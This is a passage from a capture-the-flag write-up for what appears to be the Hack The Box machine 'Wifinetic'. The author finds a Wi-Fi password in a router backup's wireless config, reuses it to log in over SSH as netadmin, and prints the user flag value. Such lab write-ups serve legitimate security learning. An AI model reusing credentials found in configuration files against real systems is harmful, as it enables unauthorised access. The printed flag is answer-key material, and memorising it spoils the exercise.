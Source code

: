 There is a password in the `etc/config/wireless` file, called `VeRyUniUqWiFIPasswrd1!`. This config is for the WLAN configuration of the device. So the password shouldn't give us access with the netadmin user. Or?

Because I didn't find something else in the backup files and the password looks really pretty unique, I tried the login anyway. Aaaand it was successful:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/wifinetic]
└─$ ssh netadmin@$IP      
netadmin@10.10.11.247's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-162-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 2.0


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Sep 21 15:35:50 2023 from 10.10.16.81
netadmin@wifinetic:~$ 
```

### User flag
Logged in, we find directly the user flag:
```
netadmin@wifinetic:~$ ls -al 
total 40
drwxr-xr-x  6 netadmin netadmin 4096 Sep 21 15:32 .
drwxr-xr-x 24 root     root     4096 Sep 11 16:58 ..
lrwxrwxrwx  1 root     root        9 Sep 11 16:08 .bash_history -> /dev/null
-rw-r--r--  1 netadmin netadmin  220 Feb 25  2020 .bash_logout
-rw-r--r--  1 netadmin netadmin 3771 Feb 25  2020 .bashrc
drwx------  2 netadmin netadmin 4096 Sep 11 16:40 .cache
drwx------  2 netadmin netadmin 4096 Sep 21 15:28 .gnupg
drwxrwxr-x  3 netadmin netadmin 4096 Sep 21 15:32 .local
-rw-r--r--  1 netadmin netadmin  807 Feb 25  2020 .profile
drwxrwxr-x  2 netadmin netadmin 4096 Sep 21 09:27 tmp
-rw-r-----  1 root     netadmin   33 Sep 21 04:13 user.txt
netadmin@wifinetic:~$ cat user.txt 
61e0a25a82f59e96b7c2a472516b1a97
netadmin@wifinetic:~$ 
```
